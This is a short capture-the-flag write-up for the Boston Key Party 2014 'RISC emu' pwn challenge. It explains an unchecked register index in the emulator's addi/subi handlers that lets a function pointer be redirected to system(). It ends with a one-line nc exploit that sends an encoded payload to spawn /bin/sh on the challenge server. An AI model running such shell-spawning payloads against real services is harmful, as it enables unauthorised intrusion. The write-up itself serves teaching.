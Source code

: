 ## Boston Key Party CTF 2014 - RISC emu (pwn 100pt)
##### 28/02 - 02/03/2014 (48hr)
___

### Description: 
	nobody cares about this service nc 54.218.22.41 4545

```
	http://bostonkeyparty.net/challenges/emu-c7c4671145c5bb6ad48682ec0c58b831
```

### Solution

Functions `addi` and `subi` do not check whether register index is in range [0,8). Thus, if we
execute the command:
```
	subi r64, 0x1330
```

We'll make `mor_604C50` to point at `.plt.system()`, without destroying the cookie. Then we can
simply call `mor` (opcode 0x8) with `/bin/sh` as argument. The exploit is as simple as this:

```
((python -c 'print "\x03\x40\x13\x30\x08/bin/sh\x00"' | base64); cat) | nc 54.218.22.41 4545
```
___
